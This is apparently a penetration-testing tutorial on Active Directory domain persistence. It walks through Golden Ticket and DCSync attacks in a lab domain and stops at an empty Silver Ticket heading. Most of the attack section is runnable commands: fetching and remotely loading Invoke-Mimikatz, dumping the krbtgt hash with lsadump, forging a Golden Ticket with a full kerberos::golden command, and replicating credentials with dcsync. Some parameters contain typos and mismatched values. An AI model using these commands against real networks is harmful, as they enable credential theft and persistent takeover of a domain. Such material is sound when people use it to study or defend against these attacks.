 # Domain Persistence

Once we get the domain admin priviledges, how can be make sure to keep those priviledges, we will look at the following priviledges persistence techniques.

1. Golden Ticket
2. Dsync Attack
3. Silver Ticket
4. Skeleton Key
5. DSRM
6. Custom SSP
7. Domain Persistence using ACLs - AdminSDHolder
8. Persistence using ACLs - Rights Abuser
9. Persistence using ACLs - Security Descriptors
10. Persistence using ACLs - Security Descriptors - Remote Registry

We will be exploiting Kerberos for this:

#### Kerberos

\*\*\*\*[**What is Kerberos and how does it works?** ](https://medium.com/@dewni.matheesha/kerberos-the-computer-network-authentication-protocol-a198309339b7) ****Kerberos is an authentication protocol that is used to verify the identity of a user or host. The Windows Server operating systems implement the Kerberos version 5 authentication protocol and extensions for public key authentication, transporting authorization data, and delegation.

**How Kerberos normal workflow can be abused for different types of attack?**

The kerberos attack is not fully secure and it has the following drawbacks which can be exploited by an attacker 

1. Microsoft doesn’t salt the hashes used for long term secret keys. The lack of salt means that any operation requiring the key can simply use the hashed version of the password instead of requiring the actual password being used. This allows the so called “pass-the-hash” attacks. From an attacker’s perspective, this means that if the password hashes for the domain can be recovered, then TGTs can be forged using the KRBTGT hash.
2. KRBTGT password is the only password in the entire active directory that never automatically changes.
3. If an attacker can compromise the KDC and recover the KRBTGT hash, then with limited information, an attacker can generate arbitrary TGTs for Kerberos ****principals in the domain.

Having a brief background on the kerberos, lets start our domain persistence attacks.

### Golden Ticket

Golden tickets are fully functional TGTs. This means that they can be passed and used for any service that uses Kerberos to authenticate. The TGS will process TGTs and issue service tickets blindly trusting the information in the TGT. Elevated privileges are NOT required to insert a "golden ticket" into memory. Also, by default the lifetime on a "golden ticket" is 10 years.

The "golden tickets" can be used to bypass existing Kerberos encryption policy requirements.

The "golden tickets" does not have any advanced account policy settings enabled. All additional security settings, such as logon hours or authentication silos are disabled. Microsoft has added a feature to validate service ticket requests to ensure that disabled TGTs cannot be used to get service tickets. However, the implementation is problematic. The TGS will only check the validity of the TGT if the age of the TGT is more than 20 minutes. If the TGT age is less than 20 minutes old, the TGS will issue the service ticket, which by default has a 10 hour lifetime. -- Since an attacker can use Mimikatz to generate as many tickets as they want, this 20 minute limit is nothing to be concerned with as an attacker can simply flush an old TGT and replace it with a new one lessthan 20 minutes old.

The "golden ticket" can be configured for an arbitrary user and arbitrary group membership. This will allow a ticket to be created where any user can be a member of any particular group. This can be used to bypass any sort of group-based access restrictions on file servers or other applications. The users and SIDs used in the creation of the golden ticket do not have to exist in AD. This means that TGTs can be created for non-existent users in the domain and can still getservice tickets from the TGS within the first 20 minutes of the TGT lifetime.

The golden ticket attack can be performed using Mimikatz. It can be downloaded from [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1).

First requirement is that we should have local admin access on the machine. We can check the local admin access using the following command.

```text
Find-LocalAdminAccess
```

![checking for local admin access](.gitbook/assets/image%20%283%29.png)

Run the following command to grab the sid of the administrator as it will be used later to perform the golden ticket attack.

```text
Get-NetUser | select name, objectsid
```

![](.gitbook/assets/image%20%282%29.png)

Now execute the following command to run mimikatz on the computer with the local admin priveledge

```text
$sess = New-PSSession -ComputerName WIN-QFAUFPLUUNJ.ps.local
Invoke-Command -Session $sess -FilePath ./InvokeMimikatz.ps1
Enter-PSSession -Session $sess
```

![](.gitbook/assets/image%20%284%29.png)

Once the session has been established, the Invoke-Mimikatz.ps1 script is loaded in the session and its commandlets can be called.

To grab the NTLM hash of KRGBT user, run the following command

```text
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

![](.gitbook/assets/image%20%285%29.png)

Now to perform the golden ticket attack, use the following command, replace the sid and krbtgt NTLM hash with the ones you got using the above steps.

```text
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:ps.local /sid:S-1-5-21-3416732286-1128592028-3096220582-500 /krbtgt:358585ea86ddbbdd30d2dc4c81d605ee id:500  /groups:512 /startoffset:0 /endin:600 /renewmax;10080 /ptt"'

```

Breakdown of the command 

* Invoke-Mimikatz -Command :- name of the commandlet from the Invoke-Mimikatz script
* kerberos::golden :- name of the module
* /User:Administrator :- Username for which the TGT is generated
* /domain:ps.local :- Domain FQDN
* /sid:S-1-5-21-3416732286-1128592028-3096220582-500 :- SID of the domain
* /krbtgt:358585ea86ddbbdd30d2dc4c81d605ee :- NTLM \(RC4\) hash of the krbtgt account. Use /aes128 and /aes256 for the AES keys.
* id:500 :- optional userid
* /groups:512 :- optional group id
* /ptt :- Injects the ticket in current powershell process -no need to save the ticket on the disk
* /ticket :- saves the ticket to a file for later user
* /startooffset:0 :- Optional when the ticket is available \(default 0 - right now\) in minutes. Use negative for a ticket available from past and a larger number in future
* /endin:600 :- Optional ticket lifetime \(default in 10 years\) in minutes. The defauld AD setting is 10 hours = 600 minutes
* /renewmax:100800 :- Optional ticket lifetime with renewal \(default is 10 years\) in minutes. The default AD settings is 7 days = 100800

![](.gitbook/assets/image%20%287%29.png)

to check the cached tickets run the following command

```text
klist
```

![](.gitbook/assets/image%20%281%29.png)

To check whether the admin service is accessible or not run the following command

```text
ls \\WIN-QFAUFPLUUNJ.ps.local\c$
```

![](.gitbook/assets/image%20%288%29.png)

### DCSync Attack

[DCSync](https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync) is a late-stage kill chain attack that allows an attacker to simulate the behavior of Domain Controller \(DC\) in order to retrieve password data via domain replication. Once an attacker has access to a privileged account with domain replication rights, the attacker can utilize replication protocols to mimic a domain controller.

Execute the following command 

```text
Invoke-Mimikatz -Command '"lsadump:dcsync /user:server1\krbtgt"'
```

![](.gitbook/assets/image.png)

### Silver Ticket



